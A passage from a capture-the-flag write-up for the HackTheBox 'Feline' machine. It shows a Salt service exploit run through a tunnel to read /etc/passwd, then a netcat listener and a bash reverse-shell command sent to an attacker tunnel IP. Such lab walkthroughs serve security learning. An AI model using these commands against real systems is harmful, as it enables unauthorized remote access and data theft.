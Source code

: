 ``` bash
python3 exploit.py --master 127.0.0.1 -r /etc/passwd
```

![](/assets/images/htb-feline/18_feline_salt_exploit_test.png)

Sweet! It appears that this is indeed going to work for us. The script sends the request to port 4506 on our machine and then chisel sends it through the tunnel where it is sent to the Salt service and successfully gets command execution.

As this is a capture the flag, your first thought might to be to take this RCE and to cat out the root.txt. However, we will not be able to do that, as it will not find it. And so we should work on getting a shell to find out why. We should be able to do this by starting another netcat listener and then using this exploit to run the same shell request command that we used earlier to get a shell as the tomcat user.

Let's start a netcat listener on port 9001.

``` bash
nc -lvnp 9001
```

Now run the exploit with the following command to execute the reverse shell request on the machine.

``` bash
python3 exploit.py --master 127.0.0.1 --exec 'bash -c "bash -i >& /dev/tcp/<YOUR TUNNEL IP>/9001 0>&1"'
```

![](/assets/images/htb-feline/19_feline_salt_exploit_shell.png)

This should result in our listener receiving a reverse shell request from the target machine.

